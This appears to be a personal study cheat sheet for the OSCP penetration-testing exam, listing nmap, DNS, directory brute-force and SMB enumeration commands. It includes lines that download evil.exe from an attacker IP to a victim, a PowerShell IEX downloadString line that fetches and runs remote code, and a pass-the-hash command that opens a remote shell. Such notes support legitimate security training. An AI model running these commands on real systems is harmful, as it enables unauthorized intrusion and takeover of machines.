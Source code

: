 # OSCP Notes

------------------------------------------------------------

**Recon:**

nmap -sC -sV -oA nmap/"host" <IP>

nmap -Pn -p- --open -v <IP>

nmap --script vuln -p <PORTS> <IP>

**DNS Enumeration:**

host -t ns/mx <domain name.com>

**Forward DNS lookup:**

for name in $(cat list.txt);do
    host $name.DOMAIN.com |grep "has address" |cut -d" " -f1,4
done

**Reverse DNS lookup:**

for ip in $(seq 1 254);do
    host 10.11.1.$ip |grep "domain" |cut -d" " -f1,5
done

**DNS zone Transfer:**

host -l <DOMAIN NAME> <NAME SERVER>


**SMTP User Enumeration:**

See /opt/scripts for vrfy.py

**Directory brute-force:**

gobuster dir -u http:// -w /usr/share/seclist/Discovery/Web-Content/common.txt -t50 (-k to ignore ssl)

gobuster dir -u http:// -w /usr/share/wordlist/dirbuster/directory-list2.3-medium -t50 (-k to ignore ssl)


**File transfer methods:**

cscript wget.vbs(Echo the file to the victim machine) http://10.1.2.111:8000/evil.exe evil.exe

IEX(New-Object Net.Webclient)downloadString(http://x.x.x.x/file)


**SMB**

smbclient -L <IP> # to list shares

smbclient //x.x.x.x/sharename # to log into the share

smbmap -H <IP> # to list shares and display read/write permissions.

**PASS The HASH**

1 .Take the NTLM hash and export it as:

export SMBHASH=<<<<<<<<<<<<<<NTLM_HASH_HERE>>>>>>>>>>>>>>>>>>

2 .run the command:

pth-winexe -U <USER>% //x.x.x.x cmd
    
    




